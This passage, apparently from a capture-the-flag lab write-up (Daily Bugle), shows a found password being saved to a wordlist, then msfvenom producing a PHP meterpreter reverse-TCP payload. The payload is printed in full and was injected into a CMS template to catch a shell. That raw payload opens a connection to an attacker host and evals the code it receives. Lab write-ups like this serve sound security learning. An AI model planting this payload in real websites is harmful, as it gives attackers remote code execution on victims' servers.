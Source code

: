 Additionally, prior to starting an attack, I decided to start a wordlist of the credentials I was finding. On my first attempt I neglected to maintain a wordlist, this seemed like a small omission at the time but I later found it to have caused me a ton of problems.

#### Starting a Wordlist

```bash
root@kali:~/ctf# mkdir wordlists
root@kali:~/ctf# echo 'spiderman123' > wordlists/dailybugle.txt
```

### Catching a shell

It wasn't long before I found a path to the template page that I could inject a php shell into and I generated a php payload using meterpreter.

```bash
root@kali:~/ctf# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.182.144 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1114 bytes
/*<?php /**/ error_reporting(0); $ip = '10.10.182.144'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

![daily bugle shell injection](/static/img/daily_bugle_http_shell_in_template.png)
